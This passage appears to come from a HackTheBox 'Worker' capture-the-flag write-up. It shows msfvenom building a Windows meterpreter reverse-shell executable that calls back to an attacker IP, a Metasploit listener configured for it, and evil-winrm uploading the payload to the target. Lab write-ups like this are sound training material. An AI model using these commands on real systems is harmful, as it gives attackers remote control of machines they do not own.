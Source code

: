 Let's create a new reverse shell (an exe this time).

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows --encoder generic/none LHOST=10.10.14.174 LPORT=9999 -f raw > noraj.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none succeeded with size 510 (iteration=0)
generic/none chosen with final size 510
Payload size: 510 bytes
```

Start a listener aagain:

```
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.174     yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

[evil-winrm][evil-winrm] allows us to upload a file:

```
*Evil-WinRM* PS C:\Users\robisl\Downloads> upload /home/noraj/CTF/HackTheBox/machines/Worker/noraj.exe
Info: Uploading /home/noraj/CTF/HackTheBox/machines/Worker/noraj.exe to C:\Users\robisl\Downloads\noraj.exe


Data: 680 bytes of 680 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\robisl\Downloads> pwd

Path
----
C:\Users\robisl\Downloads
```
